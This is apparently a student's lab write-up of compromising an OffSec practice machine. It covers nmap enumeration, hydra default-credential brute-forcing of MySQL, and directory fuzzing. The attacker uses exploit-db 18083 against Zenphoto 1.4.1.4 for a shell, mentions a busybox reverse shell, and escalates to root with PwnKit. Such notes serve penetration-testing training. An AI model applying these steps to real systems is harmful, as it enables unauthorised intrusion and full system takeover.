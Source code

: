 ### Enumeration
```
IP=192.168.170.41
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,23,80,3306 -A $IP
```
### Ports
- 22
	- OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
- 23
	- ipp     CUPS 1.4
- 80
	- Apache httpd 2.2.14 ((Ubuntu))
- 3306
	- mysql
### Foothold
- 3306
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP`
- 80
	- Default landing page
		- ![[Pasted image 20240711133636.png]]
	- Versions
		- zenphoto version 1.4.1.4
			- googled zenphoto version 1.4.1.4
				- exploit-db 18083
				- php 18083.php $IP /test/
				- now we have a shell
				- ![[Pasted image 20240711140121.png]]
				- busybox rev to get RCE
		- /test
			- Zenphoto
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
			- /test
				- ![[Pasted image 20240711133756.png]]
				- Search parameter
					- http://192.168.170.41/test/index.php?p=search
			- /test/cache
				- nothing
			- /test/albums/
				- nothing
			- /test/plugins
				- a few
			- /test/themes/
				- a few
			- test/zp-core/
				- ![[Pasted image 20240711135007.png]]
			- test/zp-data/
				- ![[Pasted image 20240711135050.png]]
				- .txt files are 404 forbidden
			- /test/page/search/
				- not found
			- /test/robots.txt
				- ![[Pasted image 20240711134908.png]]
			- /test/uploaded
				- empty
- 23
	- ![[Pasted image 20240711134642.png]]
	- Directory Brute force
		- dirsearch -u http://$IP:23
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- requires password
	- uname -a
		- `Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux`
	- getcap -r / 2>/dev/null
		- none
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
		- nothing
	- Users with console
		- root
	- linpeas
		- possible exploits
			- pwnkit
				- bash: ./PwnKit: cannot execute binary file
				- ./PwnKit32 syntax error
					- Gives us root
### Credentials
### Lessons Learned
- Try exploits that you find
- php files can be executed in bash with php file.php